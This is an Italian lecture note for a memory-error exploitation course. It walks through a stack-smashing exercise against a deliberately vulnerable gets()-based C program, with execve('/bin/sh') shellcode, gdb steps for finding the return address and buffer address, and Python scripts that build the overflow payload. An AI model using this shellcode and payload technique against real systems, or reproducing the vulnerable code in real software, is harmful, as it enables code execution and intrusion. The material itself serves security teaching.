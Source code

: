 ```yaml
---
id: '11'
lezione: "20231102"
title: "Memory error exploits - Smashing the stack - Esercizi"
author: "Sam. K."
keywords: ["Memory error exploits", "Smashing the stack", "Come fa un antivirus capire che è un shellcode", "Trovare Return Address", "payload per trovare RA", "Come troviamo l'indirizzo del buffer", "Python payload creation"] 
---
```


<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Memory error exploits - Smashing the stack - Esercizi"

## Esercizio 1
~~~c
#include <stdio.h>
// Task: stampare "You Win!"
// Senza sapere l'indirizzo di buf
int main(){
    int cookie;
    char buf[80]; // abbiamo bug e cookie invertiti

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    // Inoltre entrare qua dentro è difficile anche usando la tecnica del lez 10,
    // è difficile perché ci sono caratteri come \x00 \x0a (null, newline) sono difficile da inserire dentro lo stack tramire input di gets()
    // anche se riusciamo ad entrare è inutile perché dice "you loose"
    // tecnica da usare "shellcode"
    if(cookie == 0x000d0a00) 
        printf("You Loose!\n");

    return 0;
}
~~~
## Passi per risolvere il problema
1. Compilare il programma C `gcc -g -z execstack -fno-stack-protector -o ex1.out ex1.c`
2. Compilare Shellcode (assembly) `gcc -nostdlib -static -o shellcode.out shellcode.s` ed estrarre la parte di codice **`objcopy -O binary --only-section=.text shellcode.txt shellcode.out`**. 
3. Creare un payload per calcolare l'offset per arrivare a return address. 
4. Trovare l'indirizzo del buffer a partire dal payload di prima.
5. Creare un secondo payload integrando il shellcode creato in precedenza e return address all'inizio del nostro buffer.

### Preparare un shellcode?
[shell-storm per trovare shellcode](https://shell-storm.org/shellcode/index.html)

* Usiamo una shellcode che chiama una shell `/bin/sh` tramite una `syscall` di tipo `execve`.

```s
# Linux/x86_64 execve("/bin/sh"); 30 bytes shellcode
# Date: 2010-04-26
# Author: zbt
# Tested on: x86_64 Debian GNU/Linux

# execve("/bin/sh", ["/bin/sh"], NULL)

.intel_syntax noprefix
.global _start
.section .text

_start:
    xor     rdx, rdx
    mov     qword rbx, 0x68732f6e69622f2f # '//bin/sh'
    shr     rbx, 0x8
    push    rbx
    mov     rdi, rsp
    push    rax
    push    rdi
    mov     rsi, rsp
    mov     al, 0x3b # syscall execve
    syscall
```
**IMPORTANTE**:
* `//bin/sh` perché riuscire ad aprire una shell significa che posso fare quasi tutto. 
* Uso doppio slash `//bin/sh` per crearmi la fine della stringa (una stringa deve avere `\x00` per segnalare dove termina), per questo dopo uso `shr rbx, 0x8` shifto di 8 bit a destra che crea un byte `00` a sinistra (perché siamo in little-endian).
* Questo lo faccio dentro lo stack perché quando il programma legge con `gets()` oppure con `scanf()` l'input appena trova un byte di tipo `\x00` oppure `\x0a` smette di leggere, quindi l'input che mandiamo con shellcode non può contenere `\x00` oppure `\x0a`. Questo vuol dire che lo dobbiamo crearlo indirettamente.  
* Bisogna prendere solo la parte `.text` del codice:
  
  `objcopy -O binary --only-section=.text <input> <output.txt>`.
### Come fa un antivirus capire che è un shellcode?
Capire se un file binario è un shell code: `strings <code.text>` stampa la parte leggibile del file binario. Quindi, trovare una stringa che porta a /bin/shell dice che è probabilmente è un shellcode.

### Trovare Return Address - secondo convenzioni
Come faccio trovare RA? so che la variabile `buf` è di 80 bytes (perché `char buf[80]`) e poi c'è la variabile `cookie` quindi altri 4 byte (int cookie 4 bytes) da cui devo arrivare all'indirizzo di ritorno `RA`. Io so che l'istruzione `ret` fa pop dallo stack l'indirizzo di memoria dove è allocato prossima l'istruzione. 
* Metodo semplice: 
  * riempio il buffer con 80 valori `A*80` e poi altri valori come `AAAABBBBCCCCDDDD` che ripetono 4 volte (perché quando visualizziamo ci fa vedere 4 byte alla volta che semplifica il conteggio)
  * controlliamo con un breakpoint (in gdb) all'istruzione `ret` cosa abbiamo in dentro il `rsp`. In questo modo posso calcolare quanti byte ci sono dal buffer al RA.
    * Per settare il breakpoint all'istruzione `ret` di `main` faccio `disas main` e `break main+<number>` nel mio caso `break *main+87`.

NOTE: per settare breakpoint ad un indirizzo preciso bisogna usare `*`. es. `break *main+87` dove `main` è un label, oppure `break *0x1234abcd` indirizzo diretto.

Per trovare l'indirizzo oppure l'offset fino all'istruzione `ret` uso `disas main` il quale disassebmla la funzione main.

![Disassemble main](assets/images/disas%20main.png)

#### Il payload per trovare RA

```py
# Creo un payload
with open('payload','wb') as f: # 'wb' write bytes
    f.write(b'\x90'*80)
    f.write(b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII')
    
print("Payload created!")
```
Per avviare in gdb il programma con il payload `run < payload.txt`

**IMPORTANTE**: La funzione che chiama `call` alla funzione `main` del nostro programma `C` è **`libc_start_main`**, quindi quando `main` fa `ret` "presumibilmente" ritorna a `libc_start_main`.

Adesso controlliamo lo stack pointer all'istruzione `ret` e notiamo che nel `rsp` abbiamo una parte del nostro payload `0\x47` e `\x48` cioè la `GGGG` e `HHHH`.

Quindi da questo capiamo che ci serve una stringa lunga `80 + 6*4 = 104` byte per arrivare al return address. (`6*4 = "AAAABBBBCCCCDDDDEEEEFFFF"` ci fermiamo prima di "`GGGG`").

![RA position](assets/images/return%20address%20position.png)

**Quindi payload è fatto da 80 byte per istruzioni 24 byte casuali seguito da l'indirizzo dell'inizio buffer.**

#### Come troviamo l'indirizzo del buffer? 
Si inserisce una stringa particolare e controlliamo dove inizia dentro lo stack.

![Indirizzo del buffer](assets/images/indirizzo%20del%20buffer.png)

Controllando i valori nello stack in `gdb` (in questo caso siamo all'istruzione `ret`) troviamo che abbiamo una sequenza di 80 `\x90` che rappresenta l'input che abbiamo immesso al buffer. Quindi l'indirizzo del buffer è `0x7fffffffddb8+8 = 0x7fffffffddc0`. Infatti il printf all'inizio aveva stampato

![Printf indirizzo buf](assets/images/prinf%20indirizzo%20buf.png)

`x/64x $rsp-128 ` permette di visualizzare 64 byte in esadecimale dello stack a partire dallo $rsp-128.

NOTE: Usiamo l'istruzione `nop` per mettere un offset dentro il buf (per evitare di fare conti con indirizzi).

#### Payload finale per l'attacco vero e proprio
```py
shellcode = ""

with open('shellcode.txt','rb') as f:
    shellcode = f.read()

with open('payload2','wb') as f:
    f.write(b'\x90'*8)
    f.write(shellcode)
    f.write(b'\x90'*(80-8-len(shellcode)))
    f.write(b'AAAABBBBCCCCDDDDEEEEFFFF')
    f.write(b'\xc0\xdd\xff\xff\xff\x7f') # 0x7f ff ff ff dd c0 insert address in bytes (little-endian)
    f.close()

print("Payload created!")
```

`gcc -z execstack` permette di avviare il codice (istruzioni assembly) dallo stack.

**IMPORTANTE**: In gdb settare **`set follow-exec-mode new`** permette di avviare altri programmi a partire dal programma che stiamo debuggando, in questo modo fa debugging anche del nuovo programma. (dopo che programma principale termina fare `run` per avviare il secondo programma)

![You win](assets/images/buffer%20overflow%20shellcode%20you%20win.png)

`ghidra` per decompilare un programma C già compilato.

`checksec <file_binario>` permette di determinare le protezioni sicurezza abilitati nel file binario (programma compilato).

## Esercizio 2 - buffer molto piccolo
```c
#include <stdio.h>

int main(){
    int cookie;
    char buf[4];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if(cookie == 0x000d0a00)
        printf("You Loose!\n");

    return 0;
}
```
